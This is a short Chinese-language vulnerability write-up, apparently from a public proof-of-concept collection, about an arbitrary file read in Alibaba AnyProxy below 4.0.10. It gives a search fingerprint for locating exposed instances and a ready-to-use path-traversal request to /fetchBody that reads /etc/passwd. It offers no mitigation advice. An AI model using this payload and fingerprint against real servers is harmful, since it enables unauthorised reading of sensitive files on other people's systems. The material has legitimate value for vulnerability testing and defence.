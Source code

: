 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

# Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

```
Alibaba AnyProxy < 4.0.10
```

## 网络测绘

```
"anyproxy"
```

## 漏洞复现

页面如下

![](/images/202202102008909.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```



![](/images/202202102008683.png)



